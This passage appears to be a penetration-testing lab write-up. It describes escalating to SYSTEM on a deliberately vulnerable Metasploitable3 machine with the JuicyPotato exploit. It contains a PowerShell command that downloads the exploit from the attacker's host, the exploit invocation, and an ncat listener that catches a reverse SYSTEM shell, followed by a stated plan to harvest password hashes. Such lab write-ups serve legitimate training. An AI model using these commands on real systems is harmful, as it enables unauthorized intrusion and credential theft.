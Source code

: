After transferring the JuicyPotato exploit to my kali machine, I hosted the exploit on an HTTP server so I could get the metasploitable3 machine to download it.

On the metasploitable3 machine, I used powershell to download the exploit hosted on my kali machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://172.28.128.1:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

```none
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.28.128.4 - - [02/Sep/2020 13:04:42] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

Then, I copied the `Invoke-PowerShellTcp.ps1` script from the default directory where it was originally uploaded via the meterpreter session to the current working directory JuicyPotato.exe was located at. This was a minor, but important detail that was necessary to get the privilege escalation exploit to work.

```none
PS C:\Windows\Temp\r0kit> cp "C:\Program Files\jmx\Invoke-PowerShellTcp.ps1" .
```

Since the JuicyPotato exploit invokes an out-of-band process from the current powershell session, I figured I could invoke the reverse powershell script with `powershell.exe` to get a reverse powershell session with `SYSTEM` privileges:

```none
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "C:\Windows\Temp\r0kit\Invoke-PowerShellTcp.ps1" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 172.28.128.4.
Ncat: Connection from 172.28.128.4:49415.
Windows PowerShell running as user METASPLOITABLE3$ on METASPLOITABLE3
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system
```

At this point, I compromised the entire system. The next step was to harvest NTML hashes and passwords.
